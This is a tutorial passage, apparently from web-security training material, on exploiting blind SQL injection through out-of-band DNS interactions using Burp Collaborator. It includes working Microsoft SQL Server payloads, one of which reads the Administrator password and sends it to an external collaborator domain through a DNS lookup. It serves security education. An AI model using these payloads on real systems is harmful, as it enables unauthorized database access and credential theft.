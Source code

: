# Blind SQL Injection with out-of-band

# Review

Now, suppose that the application carries out the same SQL query, but does it asynchronously. The application continues processing the user's request in the original thread, and uses another thread to execute a SQL query using the tracking cookie. The query is still vulnerable to SQL injection, however none of the techniques described so far will work: the application's response doesn't depend on whether the query returns any data, or on whether a database error occurs, or on the time taken to execute the query.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control. As previously, these can be triggered conditionally, depending on an injected condition, to infer information one bit at a time. But more powerfully, data can be exfiltrated directly within the network interaction itself.

A variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service). This is because very many production networks allow free egress of DNS queries, because they are essential for the normal operation of production systems.

The easiest and most reliable way to use out-of-band techniques is using [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator). This is a server that provides custom implementations of various network services (including DNS), and allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application. Support for Burp Collaborator is built in to [Burp Suite Professional](https://portswigger.net/burp/pro) with no configuration required.

The techniques for triggering a DNS query are highly specific to the type of database being used. On Microsoft SQL Server, input like the following can be used to cause a DNS lookup on a specified domain:

```
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

This will cause the database to perform a lookup for the following domain:

```
0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net
```

You can use **Burp Collaborator** to generate a unique subdomain and poll the Collaborator server to confirm when any DNS lookups occur.

Having confirmed a way to trigger out-of-band interactions, you can then use the out-of-band channel to exfiltrate data from the vulnerable application. For example:

```
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```

This input reads the password for the `Administrator` user, appends a unique Collaborator subdomain, and triggers a DNS lookup. This will result in a DNS lookup like the following, allowing you to view the captured password:
